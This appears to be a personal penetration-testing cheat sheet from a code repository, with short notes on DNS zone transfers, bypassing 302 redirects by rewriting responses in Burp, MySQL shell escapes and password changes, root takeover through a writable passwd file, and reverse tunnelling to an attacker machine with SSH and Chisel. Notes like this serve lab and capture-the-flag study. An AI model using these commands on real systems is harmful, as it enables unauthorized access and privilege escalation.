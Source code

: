 ### Notes to look after:
- [DNS Stuffs](#dns)
- [302 Stuffs](#302)
- [Burp Stuffs](#burp)
- [Mysql Stuffs](#mysql)
- [Passwd Stuffs](#passwd)
- [Port Forwarding](#pd)


#### DNS Things:<a name='dns'></a>
- When DNS port is open on TCP, high chances of `zone transfer`<br />
`dig axfr domain.com @domain.com`


#### 302 Things:<a name='302'></a>
- When the status code is `302` which is redirect and has a size more than `1kb` then its fishy
- When `302` is found in the response heade, browser looks for the `location` header in the response and redirects there
- When the response form the server is intercepted and 302 is changed to `200 OK`
- The altered response processes and shows a new result than before


#### Burp Things:<a name='burp'></a>
- Automatically find and replace the response code with burp:
   - options -> Match and Replace -> Response Header -> Match: 30[12] FOUND; Replace: 200 OK -> â˜‘ï¸ Regex match -> ok 
   - This replaces 301 FOUND / 302 FOUND with 200 OK in the response header


#### MySQL Things:<a name='mysql'></a>
- When the creds for mysql is obtained, try to login 
  - `mysql -u <user> -p`
- After logging into mysql `\! /bin/sh` pops a shell (nice to give it a try)
- Enumerate the available tables: 
`select * from tables;`
- Enumerate values from  the table: 
`select * from tableName`
- Alter users password: 
 `update users set password = 'MySql_hash' where name='userName';`
 

#### Passwd Things:<a name='passwd'></a>
- When `write` permission for the passwd file is found
- Genereate a `crypt` passwd, which is standard unix algorithm
- In the passwd file, `root:x:0:0:root:/root:/bin/bash` replace the `x` with the openssl generated hash
- And su as root

#### Port Forwarding:<a name="pf"></a>
- Transferring a service running on a specific port on the compromized machine to attacker's machine
- Via SSH
```bash
# syntax: ssh -R remote_port:localhost:local_port ssh_server_hostname
ssh -R 80:localhost:8888 10.10.10.10

# syntax: ssh -N LOCAL_PORT:DESTINATION:DESTINATION_PORT [USER@]SSH_SERVER
# open a port on the atatckers machine
# to enter the ssh mode use "~C"
# ssh> -L {attackerMachinePort}:{victimMachine}:{victimPort} //victim machine mat be, 127.0.0.1 or an IP address that the compromized machine have access to
ssh -NL 8080:127.0.0.1:8080 10.10.10.10

```
- Via Chisel
```bash
# on the attacker machine
chisel server -p 9999 --reverse

# on the victim machine
chisel client 10.10.10.10:9999 R:443:127.0.0.1:443
```

